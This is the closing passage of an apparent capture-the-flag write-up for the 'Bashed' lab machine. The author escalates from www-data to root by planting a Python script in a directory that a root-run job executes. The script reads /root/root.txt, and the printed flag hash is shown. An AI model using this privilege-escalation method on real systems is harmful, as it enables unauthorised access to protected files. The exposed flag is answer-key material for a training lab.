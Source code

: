 The output shows that the script was indeed ran as root otherwise we wouldn't have been able to print the results of ls to test.txt. root.txt appears to the be root hash file. We can write another python script and use the same method to read /root/root.txt now.

## Root Access

```
www-data@bashed:/tmp# echo "readfile = open('/root/root.txt', 'r'); passw = readfile.read(); f = open('spoiler.txt', 'w'); f.write(passw)" > script.py

www-data@bashed:/tmp# sudo -u scriptmanager cp script.py /scripts/script.py
www-data@bashed:/tmp# sudo -u scriptmanager ls -al /scripts
total 28
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Mar 16 19:04 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 110 Mar 16 19:04 script.py
-rw-r--r-- 1 root root 33 Mar 16 19:04 spoiler.txt
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Mar 16 19:04 test.txt
-rw-r--r-- 1 scriptmanager scriptmanager 182 Mar 16 18:50 testscript.py
www-data@bashed:/tmp# sudo -u scriptmanager cat scripts/spoiler.txt
cat: scripts/spoiler.txt: No such file or directory
www-data@bashed:/tmp# sudo -u scriptmanager cat /scripts/spoiler.txt
cc4f0afe3a1026d402ba10329674a8e2
```

And success, the root hash code. 
